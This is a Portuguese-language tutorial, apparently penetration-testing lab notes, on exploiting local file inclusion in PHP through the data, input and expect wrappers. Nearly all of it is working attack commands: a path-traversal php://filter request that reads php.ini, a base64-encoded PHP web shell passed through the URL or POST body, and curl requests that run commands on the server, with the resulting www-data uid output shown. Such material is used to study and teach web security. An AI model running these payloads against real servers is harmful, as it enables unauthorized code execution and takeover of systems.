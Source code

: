 # Wrappers PHP e Exploração de Vulnerabilidades LFI

### Verificação de Configurações PHP

Antes de usar wrappers PHP, verifique se `allow_url_include` está habilitado:
```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" | base64 -d | grep allow_url_include
```

Execução Remota de Código com Wrappers
Wrapper data
Codifique um web shell em base64 e passe-o via URL:
```
echo '<?php system($_GET["cmd"]); ?>' | base64
Resultado: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
### Execute o comando codificado via URL:
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
Resultado: uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Wrapper input
Envie o web shell como dados POST e passe o comando como parâmetro GET:
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
Resultado: uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Wrapper expect
Verifique a disponibilidade do expect e use-o para executar comandos:
```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```
Resultado: extension=expect

### Execução
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id" | grep uid
```
Resultado: uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Resumo
Os wrappers PHP data, input, e expect permitem a execução de código remoto via vulnerabilidades LFI, proporcionando diferentes métodos para obter controle sobre o servidor back-end. Verifique a configuração allow_url_include, pois muitos desses ataques dependem dessa configuração estar habilitada.
